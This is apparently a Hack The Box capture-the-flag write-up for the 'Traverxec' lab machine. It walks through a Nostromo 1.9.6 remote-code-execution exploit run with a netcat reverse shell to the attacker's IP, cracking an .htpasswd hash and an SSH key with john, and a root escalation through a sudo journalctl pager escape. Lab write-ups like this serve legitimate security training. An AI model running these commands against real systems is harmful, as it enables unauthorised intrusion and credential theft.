

## Traverxec | IP: 10.10.10.165

### Enumeration

##### Services

- 22
	+ OpenSSH 
- 80
	+ Nostromo 1.9.6
		* **nostromo 1.9.6 - Remote Code Execution** - [exploit-db](https://www.exploit-db.com/exploits/47837)


### Web shell

> Using -  https://www.exploit-db.com/exploits/47837

```
local$ python 47837.py 10.10.10.165 80 "nc -e /bin/bash 10.10.14.141 4444"
```
In another shell,

```
local$ nc -nlvp 4444 
# after getting connection,
python -c 'import pty; pty.spawn("/bin/bash")' # to spawn a TTY
www-data@traverxec:~$
```

### User

*Enumeration is key*

###### User #1

```
www-data@traverxec:~$ cat /var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

Pass this hash to `john` with `wordlist=rockyou.txt`, we get password `Nowonly4me`.

Also,

###### User #2

```
www-data@traverxec:~$ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp/.momd/
```

Transfer this file to our local machine, unzip it.

Pass the `id_rsa` to `ssh2john.py`, then to `john` with `wordlist=rockyou.txt`. We get cracked password `hunter`.

```
local$ ssh -i home/david/.ssh/id_rsa david@10.10.10.165
```

on prompt, enter ``hunter`. Now we are logged in as user `david`.

```
david@traverxec:~$ cat /home/david/user.txt
[--------------------------]2f3d
```

### Getting Root

Need to make the terminal screen as small as possible (this will execute [the linux pager](https://unix.stackexchange.com/questions/144016/what-is-a-pager) - or use the the command `less`)

```
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service 
-- Logs begin at Wed 2020-02-12 12:26:03 EST, end at Wed 2020-02-12 12:46:41 EST. --
Feb 12 12:41:41 traverxec sudo[2355]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty
Feb 12 12:43:07 traverxec su[2462]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts
Feb 12 12:43:09 traverxec su[2462]: FAILED SU (to david) www-data on pts/6
Feb 12 12:43:17 traverxec su[2472]: pam_unix(su:auth): authentication failure; logname= uid=33 euid=0 tty=pts
Feb 12 12:43:19 traverxec su[2472]: FAILED SU (to david) www-data on pts/6
!/bin/bash
root@traverxec:/home/david/bin# cat /root/root.txt
[--------------------------]d906
```

### Trophy

